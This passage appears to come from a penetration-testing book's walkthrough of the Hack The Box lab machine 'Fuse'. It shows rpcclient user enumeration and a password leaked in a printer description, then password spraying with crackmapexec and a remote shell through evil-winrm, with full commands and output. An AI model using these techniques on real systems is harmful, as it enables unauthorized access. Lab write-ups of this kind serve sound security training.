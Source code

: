 user:\[astein\] rid:\[0x1db2\]

user:\[dmuir\] rid:\[0x1db3\]

rpcclient $&gt;

We can collect all of the users and create a new users file with these users in it called rpc\_users.txt and then just extract the usernames with the command:

cat rpc\_users.txt \| awk -F '\\[\|\]' '{print $2}' &gt; rpc\_users2.txt

The awk command uses the -F flag to specify the field separator regular expression. We are separating the text between the square bracket \(\[\]\) characters. The '\' is necessary to escape the first \[. If we try and write to the same file, it will end up blank and so that is why we need to create a separate file.

Back on rpcclient, we can look at printers that might be shared by using the enumprinters command. This gives output which contains a password:

rpcclient $&gt; enumprinters

flags:\[0x800000\]

name:\[\10.129.70.212\HP-MFT01\]

description:\[\10.129.70.212\HP-MFT01,HP Universal Printing PCL 6,Central \(Near IT, scan2docs password: $fab@s3Rv1ce$1\)\]

comment:\[\]

rpcclient $&gt;

A password has been saved in the description $fab@s3Rv1ce$1 which we can test with the users we enumerated earlier:

┌─\[oztechmuse@parrot\]─\[~/boxes/Fuse\]

└──╼ $crackmapexec smb fuse.htb -u rpc\_users.txt -p '$fab@s3Rv1ce$1'

SMB 10.129.70.212 445 FUSE \[\*\] Windows Server 2016 Standard 14393 x64 \(name:FUSE\) \(domain:fabricorp.local\) \(signing:True\) \(SMBv1:True\)

SMB 10.129.70.212 445 FUSE \[-\] fabricorp.local\Administrator:$fab@s3Rv1ce$1 STATUS\_LOGON\_FAILURE

SMB 10.129.70.212 445 FUSE \[+\] fabricorp.local\svc-print:$fab@s3Rv1ce$1

We get a hit with the username svc-print which we can then use to get access with evil-wrinrm:

┌─\[rin@parrot\]─\[~/boxes/Fuse\]

└──╼ $evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i fuse.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

\*Evil-WinRM\* PS C:\Users\svc-print\Documents&gt;

The user flag is in c:\Users\svc-print\Desktop\users.txt.

We will leave this here and come back to Fuse in a subsequent chapter where we cover further enumeration for discovery and privilege escalation. Next however we are going to explore custom exploitation as a means of gaining initial access.

1. 
